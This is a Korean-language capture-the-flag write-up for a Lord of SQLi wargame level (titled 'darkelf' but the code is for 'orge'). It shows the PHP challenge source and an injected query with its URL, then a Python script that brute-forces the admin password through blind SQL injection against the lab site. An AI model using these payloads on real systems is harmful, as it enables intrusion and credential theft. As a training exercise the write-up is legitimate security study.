 # Lord of SQLi - darkelf
> query : select id from prob_orge where id='guest' and pw=''
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
  highlight_file(__FILE__);
?>
```

<br>

- GET방식으로 파라미터를 넘겨주고 있다.

<br>

- pw파라미터에서 prob,\_, \., \(, \) 를 필터링하고있다.  

<br>

- 이번에는 Hello admin 이라는 문구를 띄우더라도 그 밑줄에서 addslashes함수를 써서 쿼터를
   필터링한다.  

   <br>

> query : select id from prob_orge where id='guest' and pw=' ' || id = "admin" && length(pw) = 8 #'  

> URL : http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=%20%27%20||%20id%20=%20%22admin%22%20%26%26%20length(pw)%20=%208%20%23  

- 위의 쿼리를 대입하면 id컬럼의 값이 admin 인 레코드의 pw 컬럼의 길이가 8일 때 참을 출력한다.

- 맨 마지막에 GET으로 pw를 받아서 쿼리에 대입하여 결과가 있는지 확인한 후 admin의 pw인지 확인해서 정답인지 아닌지 판별하는 것을 보고 Bilnd SQLi 라고 판단할 수 있다.

### payload

```python
import urllib.request

MyHeader = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3',
'Accept-Encoding': 'none',
'Accept-Language': 'en-US,en;q=0.8',
'Connection': 'keep-alive'}
length=8
pw=""
arr="1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"
for i in range(1,9):
	for j in range(0,62):
		url="http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=*'||id='admin'%26%26 substr(pw,{0},1)='{ascii}' %23".format(i,ascii=arr[j])
		r = urllib.request.Request(url,headers=MyHeader)
		r.add_header("Cookie","PHPSESSID=3lghblr5sl531is5c4lgc6cc01")
		data = urllib.request.urlopen(r).read().decode("utf-8")
		print(url)
		if data.find("Hello admin") != -1 :
			pw = pw + arr[j]
			print("This is    "+arr[j])
			break
print(pw)
```
